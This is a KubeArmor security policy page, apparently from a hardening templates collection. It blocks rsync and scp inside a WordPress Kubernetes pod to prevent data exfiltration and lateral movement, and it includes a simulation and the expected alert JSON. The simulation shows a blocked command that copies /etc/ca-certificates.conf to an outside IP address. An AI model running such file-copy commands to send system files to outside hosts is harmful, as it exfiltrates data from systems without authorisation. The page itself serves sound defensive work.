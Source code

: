 # File Copy
Prevent file copy using standard utilities.

## Narrative
Exfiltration consists of techniques that adversaries may use to steal data from your network. Once they’ve collected data, adversaries often package it to avoid detection while removing it. This can include compression and encryption. Techniques for getting data out of a target network typically include transferring it over their command and control channel or an alternate channel and may also include putting size limits on the transmission.

## Attack Scenario
It's important to note that file copy tools can be leveraged by attackers for exfiltrating sensitive data and transferring malicious payloads into the workloads. Additionally, it can also assist in lateral movement within the system. It's crucial to take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Credential Access, Lateral movements, Information Disclosure<br /> **Actual Attack** DarkBeam Data Breach, Shields Health Care Group data breach

## Compliance
- MITRE_TA0010_exfiltration
- NIST_800-53_SI-4(18)
- MITRE_TA0008_lateral_movement

## Policy
### File Copy
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-wordpress-remote-file-copy
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! remote file copy tools execution prevented.
  process:
    matchPaths:
    - path: /usr/bin/rsync
    - path: /bin/rsync
    - path: /usr/bin/scp
    - path: /bin/scp
    - path: /usr/bin/scp
    - path: /bin/scp
  selector:
    matchLabels:
      app: wordpress
  severity: 5
  tags:
  - MITRE
  - MITRE_TA0008_lateral_movement
  - MITRE_TA0010_exfiltration
  - MITRE_TA0006_credential_access
  - MITRE_T1552_unsecured_credentials
  - NIST_800-53_SI-4(18)
  - NIST
  - NIST_800-53
  - NIST_800-53_SC-4
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/usr/bin# scp /etc/ca-certificates.conf 104.192.3.74:/mine/                              
bash: /usr/bin/scp: Permission denied                                                                                   
root@wordpress-fb448db97-wj7n7:/usr/bin#     
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 72178,
  "HostPPID": 30490,
  "Labels": "app=wordpress",
  "Message": "Alert! remote file copy tools execution prevented.",
  "NamespaceName": "wordpress-mysql",
  "Operation": "Process",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 259,
  "PPID": 193,
  "ParentProcessName": "/bin/bash",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "harden-wordpress-remote-file-copy",
  "ProcessName": "/usr/bin/scp",
  "Resource": "/usr/bin/scp /etc/ca-certificates.conf 104.192.3.74:/mine/",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "MITRE,MITRE_TA0008_lateral_movement,MITRE_TA0010_exfiltration,MITRE_TA0006_credential_access,MITRE_T1552_unsecured_credentials,NIST_800-53_SI-4(18),NIST,NIST_800-53,NIST_800-53_SC-4",
  "Timestamp": 1696487496,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T06:31:36.085860Z",
  "cluster_id": "2302",
  "component_name": "kubearmor",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Exfiltration](https://attack.mitre.org/tactics/TA0010/)
[Darkbeams data breach](https://www.idstrong.com/sentinel/darkbeams-alarming-data-breach/)
[Shields Healthcare Group Data Breach](https://www.idstrong.com/sentinel/shields-healthcare-group-data-breach/)



